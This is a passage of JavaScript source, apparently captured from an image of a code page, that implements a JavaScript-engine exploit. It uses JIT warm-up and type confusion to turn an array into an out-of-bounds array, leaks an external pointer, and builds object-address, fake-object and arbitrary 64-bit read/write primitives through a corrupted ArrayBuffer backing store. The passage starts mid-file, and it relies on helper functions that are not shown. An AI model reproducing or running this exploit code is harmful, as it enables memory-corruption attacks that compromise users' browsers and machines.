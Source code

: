 ```javascript
}

function hex(value){
    return "0x" + value.toString(16);
}

class LeakArrayBuffer extends ArrayBuffer {
    constructor(size){
        super(size);
        this.slot = 0xb33f;
    }
}

var corrupt_arr = [1.1,2.2,3.3,4.4,5.5];
var uint64array = new BigUint64Array(2);        // for leak external_pointer   
var padding = {};
var target_buffer = new LeakArrayBuffer(0x1000);
var target_view = new DataView(target_buffer);
var bar = {x : 1,y : 2};

function foo(a){
    let x = 1;
    let y = 1.1;
    x += 1;
    y += 2.2;
    a.x = 400;
}


for(var i = 0;i < 60000;i++)
    foo(bar);

foo(corrupt_arr);
// now corrupt_arr is oob Array!
var external_pointer = f2i(corrupt_arr[corrupt_arr.indexOf(i2f(0x10n)) + 2]) - 7n;
var slot_idx = corrupt_arr.indexOf(i2f(0x1667e00000000n));
var backing_store_idx = slot_idx - 4;
console.log("[+] external_pointer: " + hex(external_pointer));

function objToPtr(obj){
    target_buffer.slot = obj;
    let ptr = (f2i(corrupt_arr[slot_idx]) >> 32n) - 1n;
    target_buffer.slot = 0xb33f;
    return ptr;
}

function ptrToObj(ptr){
    corrupt_arr[slot_idx] = i2f((ptr | 1n) << 32n);
    let obj = target_buffer.slot;
    target_buffer.slot = 0xb33f;
    return obj;
}

function getUint64(address){
    corrupt_arr[backing_store_idx] = i2f(address);
    return target_view.getBigUint64(0,true);
}

function setUint64(address,value){
    corrupt_arr[backing_store_idx] = i2f(address);
    target_view.setBigUint64(0,value,true);
}

```